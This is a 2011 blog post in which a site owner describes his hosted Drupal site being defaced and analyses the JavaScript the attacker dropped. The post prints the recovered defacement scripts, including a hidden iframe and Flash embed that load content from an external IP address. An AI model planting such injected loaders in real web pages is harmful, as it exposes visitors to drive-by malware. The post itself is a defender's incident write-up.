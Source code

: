 
---
title: "InMotion Hacked"
date: "2011-09-25T12:44:00-04:00"
draft: false
---

About half an hour ago, Sans sent me a text saying I should check my brolem site and that I made a friend. Indeed I did, what I saw is the pic on the right.

More details on the hack are here, which I found with a google search of Tiger-Mate. InMotion is the hosting provider for Brolem.net, and multiple accounts were defaced, not just ours. The "payload" of the attack, and I confirmed this with InMotion support, is to drop an index.php file in any directory that looks like an application root for popular CMS installations, such as Drupal. Fixing the hack was just a matter of copying back my original index.php.

Interestingly, I found a couple references to a similar attack in 2010 against Google, so apparently this kid really needs attention. I say kid because the payload makes me think of a teen script kiddie. I would much rather be pwned by someone I could learn from.

In any case, I'm going to reinstall Drupal some time this week (the release we have now is current) to be sure there aren't more index.php files laying around. I have no reason to suspect the database (meaning your accounts and passwords) was compromised.

Update: There is some embedded shell code in the index.php file. Not sure if that targets the webserver or the javascript engine in the browser yet.

Update 2:It's javascript. Sans, if AV starts lighting up you know where it came from! I'll post details in the comments as I learn more.

Update 3: Attached the payload in a tarball, if you want to explore yourself. I recommend against opening it in a browser. On Windows, you can open tarballs with 7-Zip.

Multiple scripts were in the index.php. 

<strong>Script 1</strong> is responsible for the moving mini-browser-box animation. I think it is harmless.

<pre>
function details() {
    window['open']('http://zone-h.org/archive/notifier=TiGER-M%40TE');
    window['open']('http://zone-h.org/archive/notifier=TiGER-M%40TE/special=1');
    window['open']('http://lmgtfy.com/?q=Hacked by TiGER-M%40TE');
};
window['scrollBy'](0, 1);
if (document['title'] == 'HackeD By TiGER-MaTE') {
    function keypressed() {
        return false;
    };
    document['onkeydown'] = keypressed;
    window['resizeTo'](0, 0);
    window['moveTo'](0, 0);
    setTimeout('move()', 2);
    var mxm = 50;
    var mym = 25;
    var mx = 0;
    var my = 0;
    var sv = 50;
    var status = 1;
    var szx = 0;
    var szy = 0;
    var c = 255;
    var n = 0;
    var sm = 30;
    var cycle = 2;
    var done = 2;

    function move() {
        if (status == 1) {
            mxm = mxm / 1.05;
            mym = mym / 1.05;
            mx = mx + mxm;
            my = my - mym;
            mxm = mxm + (400 - mx) / 100;
            mym = mym - (300 - my) / 100;
            window['moveTo'](mx, my);
            rmxm = Math['round'](mxm / 10);
            rmym = Math['round'](mym / 10);
            if (rmxm == 0) {
                if (rmym == 0) {
                    status = 2;
                };
            };
        };
        if (status == 2) {
            sv = sv / 1.1;
            scrratio = 1 + 1 / 3;
            mx = mx - sv * scrratio / 2;
            my = my - sv / 2;
            szx = szx + sv * scrratio;
            szy = szy + sv;
            window['moveTo'](mx, my);
            window['resizeTo'](szx, szy);
            if (sv < 0.1) {
                status = 3;
            };
        };
        if (status == 3) {
            document['fgColor'] = 0xffffFF;
            c = c - 16;
            if (c < 0) {
                status = 8;
            };
        };
        if (status == 4) {
            c = c + 16;
            document['bgColor'] = c * 65536;
            document['fgColor'] = (255 - c) * 65536;
            if (c > 239) {
                status = 5;
            };
        };
        if (status == 5) {
            c = c - 16;
            document['bgColor'] = c * 65536;
            document['fgColor'] = (255 - c) * 65536;
            if (c < 0) {
                status = 6;
                cycle = cycle - 1;
                if (cycle > 0) {
                    if (done == 1) {
                        status = 7;
                    } else {
                        status = 4;
                    };
                };
            };
        };
        if (status == 6) {
            document['title'] = 'LOL';
            alert('LOL');
            cycle = 2;
            status = 4;
            done = 1;
        };
        if (status == 7) {
            c = c + 4;
            document['bgColor'] = c * 65536;
            document['fgColor'] = (255 - c) * 65536;
            if (c > 128) {
                status = 8;
            };
        };
        if (status == 8) {
            window['moveTo'](0, 0);
            sx = screen['availWidth'];
            sy = screen['availHeight'];
            window['resizeTo'](sx, sy);
            status = 9;
        };
        var _0xceebx11 = setTimeout('move()', 0.3);
    };
};
</pre>

<strong>Script 2</strong> just checks for the browser name, it is trivial and does not actually run anything.

<strong>Script 3</strong> de-obfuscates embedded GIF data. This could be dangerous, will look into what exactly that is.

<strong>Script 4</strong> is like #2, merely for formatting. I guess script kiddies care about being browser compliant.

<strong>Script 5</strong> downloads the [HACKED] jpeg image. Not sure if this has embedded exploits yet, but this could be bad too. You download from an obviously illicit site.

<pre>
if (document['title'] != 'HackeD By TiGER-MaTE') {
    exit(0);
};
document['write']('&lt;img src=&quot;http://www.fotonons.ru/images/17.03.11/bytigermte.jpg&quot; onerror=&quot;this.onerror=null;this.src='http://image.bayimg.com/maeadaadi.jpg';&quot; /&gt;');
</pre>

Finally, <strong>Script 6</strong> is run, which plays an embedded MP3.

<pre>
if(document.title!='HackeD By TiGER-MaTE') {
    exit(0);
}
document.write('&lt;iframe frameborder=&quot;0&quot; height=&quot;0&quot; width=&quot;0&quot;  src=&quot;http://77.247.69.68/.../404.php&quot;&gt;&lt;/iframe&gt;&lt;embed src=&quot;http://77.247.69.68/.../By_TiGER-MaTE.swf?soundswf=http://77.247.69.68/.../TiGER-MaTE.swf&amp;autoplay=1&amp;loops=1&quot; width=&quot;0&quot; height=&quot;0&quot; type=&quot;application/x-shockwave-flash&quot;&gt;&lt;/embed&gt;');
</pre>

Script 3 most likely contains malware, but 5 and 6 could too.
